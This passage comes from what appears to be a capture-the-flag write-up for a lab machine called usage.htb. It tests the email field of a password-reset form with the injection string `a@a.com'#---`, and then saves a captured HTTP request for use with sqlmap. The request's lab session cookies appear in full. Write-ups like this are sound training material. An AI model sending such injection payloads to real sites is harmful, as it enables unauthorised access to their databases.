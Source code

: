 It still return success by using the email : `a@a.com'#---`, which indicates the `email` parameter is vulnerable to SQLI

![](/assets/obsidian/6505b321358ab294633a49f446e15391.png)

![](/assets/obsidian/ca127852cb97f60688079699156c48dd.png)

#### Sqlmap

Save the request from burp proxy history

> `pass_reset.req`

```bash
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6Imk5a1Y3dFdReFc1ZXlxSnVEU1hPNnc9PSIsInZhbHVlIjoiMHJ6aHFrUXlUdnk5UUdpYllLTVdRVEZzdnpIcU4xOUs1N2lxaUpWTUxseW42dTRzcy9IRW53WFpsMkZ5UWtOSmZlUkh4VWF0T1ErWE42SDgvVkhjeFNNMFlMQ0dqbTZqMDgvbnJyWVZDMFlQR2NzQXVvdzNKbHpLTDNZL3kxNzciLCJtYWMiOiI0OWY4NjkyOGMyYjkyNGUxYTZkNGU4MWQ4ZGZiMGRmMWIyZGUxYjVlZjQ2ZmI1YjViODMwNzgzNjI4OGJjNDY2IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkFMcFhmeVM5cCt4eDRQZ3lodlpXT2c9PSIsInZhbHVlIjoiTzdpdld5a0JTWFcwN0F0K3BjRDNodklBM0tXSkd1ZEduYXZTWmRxcEk2YjdJS0QydmpvcHd6Q0xtQjZPczR0dGd1cnc3ZVlIaHdWcnltVXlkNHhwL216c3lselRKbHZNUG5DK0Z4WDRKWElCTjlxSFhXVXl5d3JFSUtZWmFHazIiLCJtYWMiOiI0ZTc5MGQyNmQ2Y2M4NjdiYmI2OTNjNmEyN2ZmMTM3Zjc2MDdlZDI1OWYyNjZkYWEyZjA2YzRjZjdkYjRlOTRlIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
```